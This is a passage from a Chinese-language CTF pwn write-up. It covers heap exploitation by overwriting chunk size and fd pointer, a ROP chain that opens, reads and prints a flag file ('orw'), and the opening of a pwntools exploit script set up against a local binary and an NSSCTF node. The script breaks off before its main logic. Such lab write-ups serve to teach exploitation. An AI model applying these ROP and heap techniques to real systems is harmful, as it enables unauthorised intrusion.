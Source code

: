 然后改变一下 size 和 fd 指针

[![](assets/1701612363-4e7334d17f48473032150d16e6320633.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213158-fc1d1194-19a5-1.png)

```plain
add(0x80,'aaaa')

flag_addr = stack_addr
ppp=stack_addr+0x200
pl=b'./flag\x00\x00'
pl+=p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_ret) + p64(0) + p64(open_addr)
pl+=p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(ppp) + p64(pop_rdx_ret) + p64(0x50) + p64(read_addr)
pl+=p64(pop_rdi_ret) + p64(ppp) + p64(puts_addr)
add(0x80, pl)
```

然后打个 orw 就行了  
成功读取我写入本地文件夹中的 flag

[![](assets/1701612363-daedef011179d1c950399ed8b42f4005.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213221-099a9a62-19a6-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node4.anna.nssctf.cn',28107)
elf = ELF('./pwn')
libc=ELF('./libc.so.6')
#libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()
```